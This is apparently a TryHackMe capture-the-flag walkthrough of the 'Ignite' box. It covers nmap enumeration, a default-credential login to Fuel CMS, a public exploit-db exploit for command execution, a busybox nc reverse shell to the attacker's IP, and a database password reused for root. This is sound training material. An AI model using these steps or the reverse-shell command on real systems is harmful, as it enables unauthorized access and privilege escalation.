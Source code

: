 # THM - Ignite

### Ip: 10.10.181.250
### Name: Ignite
### Rating: Easy

------------------------------------------------

thm_ignite_pic.png

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.181.250
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-19 16:05 CST
Nmap scan report for 10.10.181.250
Host is up (0.13s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.63 seconds
```

Looking at the page on port 80 wee see it is running Fuel cms v 1.4.

thm_ignite_site.png

We also notice that Nmap found a robots.txt page with the `/fuel` endpoint.

Heading to that page we find a simple login:

thm_ignite_login.png

We find we can login with `admin:admin`

thm_ignite_in.png

Looking for exploits I find: https://www.exploit-db.com/exploits/50477

### Exploitation

We can fire the exploit, with no changes needed to the code, with:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ python exploit.py -u http://10.10.181.250     
[+]Connecting...
Enter Command $whoami
systemwww-data


Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Which gives us a pseudo shell to work with, even if it is a bit wonky.

Let's issue a reverse shell one-line and catch a proper shell:

```
Enter Command $busybox nc 10.6.72.91 443 -e /bin/bash
```

This catches a shell back in our listener:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.181.250] 51170
hostname
ubuntu
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
```

One the shell is fully stabilized we can grab the first flag:

thm_ignite_user.png

### Privilege Escalation

Browsing the system looking for config files, we find an interesting password in the database.php file:

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php 
<SNIP>
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
```

Fortunately for us, this password was reused by root on the target, and we can use it to `su -` and drop into a root shell, where we can then grab the final flag:

thm_ignite_root.png

Thanks for following along!

-Ryan

-----------------------------------------------